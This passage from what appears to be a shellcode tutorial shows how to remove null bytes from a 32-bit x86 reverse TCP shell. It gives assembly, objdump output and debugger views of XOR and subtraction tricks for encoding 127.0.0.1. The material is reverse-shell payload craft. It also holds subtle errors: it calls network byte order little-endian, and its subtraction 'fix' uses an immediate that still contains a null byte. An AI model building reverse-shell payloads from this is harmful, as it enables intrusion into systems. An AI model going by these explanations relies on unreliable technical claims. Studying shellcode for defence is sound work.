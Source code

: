 Looking at our current reverse shell assembly, we have null bytes in the IP address:

```bash
$ objdump -M intel -d reverse_tcp32 | awk -F"\\n" -v RS="\\n\\n" '$1 ~ /_start/'
# ...
 804901b:	68 7f 00 00 01       	push   0x0100007f
# ...
```

The IP address `127.0.0.1` in hex is `0x7f000001`, but in network byte order (little-endian) it becomes `0x0100007f` which contains **two null bytes**!

#### Techniques to Eliminate Bad Characters

##### 1. XOR and Arithmetic Operations

Instead of pushing direct values containing null bytes, we can use XOR and arithmetic to construct the values:

```txt
push 0x0100007f      ; Contains 0x00 bytes!
```

We can fix this -

```txt
xor eax, eax
mov eax, 0xfeffff80  ; 0x0100007f XOR 0xffffffff = 0xfeffff80
xor eax, 0xffffffff  ; XOR again to get original 0x0100007f
push eax
```

Objdump shows -

```txt
 804901b:	31 c0                	xor    eax,eax
 804901d:	b8 80 ff ff fe       	mov    eax,0xfeffff80
 8049022:	83 f0 ff             	xor    eax,0xffffffff
 8049025:	50                   	push   eax
```

On debugging we can see that we have indeed pushed `0x100007f`

```txt
00:0000│ esp 0xffffd600 ◂— 0x100007f
```

##### 3. Stack Manipulation

Build values directly on the stack using smaller pushes:

```txt
; Build 0x0100007f using only stack operations
push 0x01010101      ; Start with this (no nulls)
pop eax
sub eax, 0x00010082  ; Subtract to get 0x0100007f
; 0x01010101 - 0x00010082 = 0x0100007f 
push eax
```
